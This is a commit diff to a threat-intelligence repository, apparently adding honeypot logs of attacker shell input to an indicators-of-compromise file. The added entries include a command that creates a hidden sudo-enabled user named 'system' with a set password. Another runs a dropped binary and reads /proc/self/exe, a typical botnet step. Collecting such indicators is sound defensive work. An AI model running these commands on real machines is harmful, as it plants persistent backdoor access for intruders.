

Before and after one commit to CyDefOps/project-killchain, a CSV file: IOCs/network-indicators/honeypot/attack-pattern/full-14d.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows.

```diff
--- a/IOCs/network-indicators/honeypot/attack-pattern/full-14d.csv
+++ b/IOCs/network-indicators/honeypot/attack-pattern/full-14d.csv
@@ -759,2 +759,24 @@
     ],
+    "45.79.221.198": [
+        {
+            "timestamp": "2023-11-08T11:11:47.398206Z",
+            "event": "command_input",
+            "input": "apt update && apt install sudo curl -y && sudo useradd -m -p $(openssl passwd -1 e28nTw6E) system && sudo usermod -aG sudo system && sudo usermod -aG sudo system",
+            "session": "238cbaa09316"
+        },
+        {
+            "timestamp": "2023-11-08T11:11:47.398643Z",
+            "event": "command_input",
+            "input": "openssl passwd -1 e28nTw6E",
+            "session": "238cbaa09316"
+        }
+    ],
+    "211.196.75.231": [
+        {
+            "timestamp": "2023-11-08T11:37:16.941837Z",
+            "event": "command_input",
+            "input": "./oinasf; dd if=/proc/self/exe bs=22 count=1 || while read i; do echo $i; done < /proc/self/exe || cat /proc/self/exe;",
+            "session": "661c5534eb54"
+        }
+    ],
     "159.65.146.149": [
```
Also changed, not shown: 1 other file.
